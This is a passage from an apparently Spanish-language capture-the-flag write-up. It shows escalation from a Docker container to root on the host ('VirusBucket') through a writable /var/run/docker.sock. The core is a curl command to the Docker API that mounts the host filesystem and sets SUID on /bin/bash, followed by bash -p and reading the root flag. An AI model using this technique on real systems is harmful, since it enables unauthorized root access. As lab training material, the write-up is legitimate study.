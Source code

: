 ```null
          "DriverOpts": null
        }
      }
    },
    "Mounts": [
      {
        "Type": "bind",
        "Source": "/var/run/docker.sock",
        "Destination": "/var/run/docker.sock",
        "Mode": "",
        "RW": true,
        "Propagation": "rprivate"
      }
    ]
  }
]
```

Como estoy como ```root```, puedo modificar este unix docker socket file abusando de la API. Más información en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-docker-socket)


Creo un contenedor, aprovechandome de la imagen que ya existe y creando una montura que traiga toda la raíz de la máquina host

```null
root@2d24bf61767c:~# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"sandbox:latest","HostConfig":{"Binds":["/:/pwned"]},"Cmd":["/bin/sh", "-c", "chmod u+s /pwned/bin/bash"],"Tty": true}' http://localhost/containers/create
{"Id":"8bddef351232e5f3fdb008e3092dc658c07e62700abef25424f73e219935a7fe","Warnings":[]}
```

Y lo inicio

```null
root@2d24bf61767c:~# curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/8bddef351232e5f3fdb008e3092dc658c07e62700abef25424f73e219935a7fe/start
```

La bash pasa a ser SUID en la máquina host

```null
tomcat@VirusBucket:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Feb 25  2020 /bin/bash
```

Puedo ver la segunda flag

```null
tomcat@VirusBucket:/dev/shm$ bash -p
bash-5.0# cat /root/root.txt
3713eaf0cd0b8ca5c08de12e5c672f3a
```